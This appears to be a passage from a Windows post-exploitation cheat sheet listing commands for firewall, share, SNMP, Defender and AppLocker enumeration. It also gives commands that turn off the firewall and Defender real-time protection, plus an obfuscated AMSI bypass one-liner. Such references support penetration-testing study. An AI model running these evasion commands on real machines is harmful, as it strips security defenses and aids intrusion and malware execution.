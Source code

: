 ```bash
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config
# List firewall's blocked ports
$f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
# Disable firewall
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
# List all network shares
net share
SNMP Configuration
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

## Antivirus & Detections

### Windows Defender
```bash
# check status of Defender
PS C:\> Get-MpComputerStatus

# disable Real Time Monitoring
PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true; Get-MpComputerStatus
PS C:\> Set-MpPreference -DisableIOAVProtection $true
```

### Firewall
```bash
netsh advfirewall show domain
netsh advfirewall show private
netsh advfirewall show public
```

### AppLocker Enumeration

- With the GPO
- HKLM\SOFTWARE\Policies\Microsoft\Windows\SrpV2 (Keys: Appx, Dll, Exe, Msi and Script).
```bash
# List AppLocker rules
PS C:\> $a = Get-ApplockerPolicy -effective
PS C:\> $a.rulecollections
```

### Powershell

```bash
# Default powershell locations in a Windows system.
C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
# Example of AMSI Bypass.
PS C:\> [Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)
```
